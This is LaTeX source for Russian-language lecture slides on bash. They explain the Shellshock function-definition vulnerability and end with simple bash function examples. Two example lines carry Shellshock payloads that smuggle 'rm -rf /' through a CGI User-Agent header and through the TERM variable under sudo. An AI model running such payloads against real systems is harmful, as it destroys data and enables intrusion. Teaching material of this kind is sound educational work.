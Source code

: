 \begin{frame}[fragile]
	\frametitle{Пример: shellshock}
	\begin{block}{Однострочный синтаксис}
			\begin{lstlisting}
function_name () { command... ;}
\end{lstlisting}
	\end{block}

    В 2014 году вскрылась уязвимость, существовавшая с {\bf 1992} г.:

	\begin{block}{Shellshock}
			\begin{lstlisting}
export badvar='(){:;}; echo "The Matrix has you"'
bash -c "echo Just a simple shell call"
\end{lstlisting}
	\begin{itemize}
	    \item Объявление переменной
	    \item Создание процесса, наследующего опасную переменную
	    \item При инициализации окружения {\tt bash} запускает на выполнение все, что следует за ``объявлением'' функции
	\end{itemize}
	\end{block}

\end{frame}

	\begin{block}{Пример использования}
	На любой уязвимый сайт с CGI-скриптами:
			\begin{lstlisting}
curl -H "User-Agent: () { :; }; /bin/rm -rf /" http://example.com/
\end{lstlisting}
	 В CGI все заголовки преобразуются в переменные окружения.
	\end{block}

	\begin{block}{Пример использования 2}
	Для любой команды {\tt sudo}
			\begin{lstlisting}
TERM='() { :; }; /bin/rm -rf / ' sudo mount /dev/cdrom
\end{lstlisting}
	Переменная {\tt TERM} не преобразуется и не сбрасывается.
	\end{block}



\begin{frame}[fragile]
	\frametitle{Пример (начало)}
	\small
	\begin{lstlisting}
#!/bin/bash

function help {
  echo "Использование: $0 <string>"
  exit 1
}

f1(){
  echo Вызвана функция $FUNCNAME с $# аргументами
}

f2(){
  while read str; do
    echo ${FUNCNAME}: прочитана строка: $str
  done
}
\end{lstlisting}

\end{frame}



